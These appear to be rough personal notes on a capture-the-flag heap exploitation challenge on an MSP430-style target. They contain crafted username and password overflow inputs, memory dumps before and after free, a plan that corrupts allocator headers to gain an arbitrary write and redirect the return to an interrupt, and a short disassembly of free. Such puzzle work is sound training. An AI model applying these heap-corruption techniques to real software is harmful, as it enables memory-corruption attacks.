 Username: '4141 ' * 0x08 + '46a8 dead 1010'
	4141 4141 4141 4141 4141 4141 4141 4141 9843 9046 2222
	4141 4141 4141 4141 4141 4141 4141 4141 9843 6445 2222
Password: 4141

# Before free
46a0: 1a47 0f4b b012 0845 0f4a b012 0845 3a41   .G.K...E.J...E:A
# After free
46a0: 1a47 0f4b b012 0845 0f4a 3041 4296 3a41   .G.K...E.J0AB.:A (1010)
46a0: 1a47 0f4b b012 0845 0f4a 3041 4297 3a41   .G.K...E.J0AB.:A (1111)
46a0: 1a47 0f4b b012 0845 0f4a 3041 54a8 3a41   .G.K...E.J0AT.:A (2222)
46a0: 1a47 0f4b b012 0845 0f4a 9046 3067 3a41   .G.K...E.J.F0g:A


46b2: a846
46aa: 3041
46ac: 0845 -> 4296


I can overwrite the seconed and third headers
Seconed header is usefull because I can edit the prev pointer.
The problem with editing the prev point of the secones is that the first pointer is active

Password: '4141 ' * 0x08 + 
1. First free -> menipulate seconed free to write to aribtrary 4 bytes location
2. Second free -> overwrite the stack with '#0x7f' and ret to <INT>

Username: 'B' * 0x16
Password: 'D' * 0x16
# After first free
4240: 0000 4242 4242 9684


























############################ Useless ############################
# Allocation start at r15
4508 <free>
4508:  0b12           push	r11
450a:  3f50 faff      add	#0xfffa, r15 // r15 = r15 - 0x06
# Allocation headers start (Prev addr) at r15
